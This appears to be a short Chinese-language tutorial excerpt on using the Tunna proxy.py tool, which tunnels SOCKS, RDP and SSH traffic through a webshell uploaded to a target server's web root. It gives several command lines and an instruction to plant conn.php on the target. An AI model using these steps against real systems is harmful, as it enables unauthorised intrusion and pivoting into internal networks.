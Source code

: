 

**示例:**

```
使用示例:python proxy.py -u http://10.3.3.1/conn.aspx -l 8000 -v
#利用80000端口启动本地SOCKS代理服务器
#此连接将通过HTTP并在远程服务器上打开

python proxy.py -u http://10.3.3.1/conn.aspx -l 8000 -x https://192.168.1.100:3128 -A -v
#利用80000端口启动本地SOCKS代理服务器
#将连接通过一个本地代理(https://192.168.1.100:3128),进行身份验证
#进行远程Tunna webshell

python proxy.py -u http://10.3.3.1/conn.aspx -l 4444 -r 3389 -b 8192 -v –no-socks
#这将启动webshell和远程主机RDP(3389)服务之间的连接
# RDP客户端可以连接到本地主机4444端口
#此连接将通过HTTP进行
```



首先要将webshell文件上传到目标服务器上根目录上，如下

![image-20210804140114666](内网穿透工具使用.assets\image-20210804140114666.png)

这里上传conn.php脚本



输入如下命令，指定webshell文件和本地监听端口1234连接远程ssh服务

```
python proxy.py -u http://192.168.233.1/conn.php -l 1234 -r 22 -v -s
```

![image-20210804141728947](内网穿透工具使用.assets\image-20210804141728947.png)
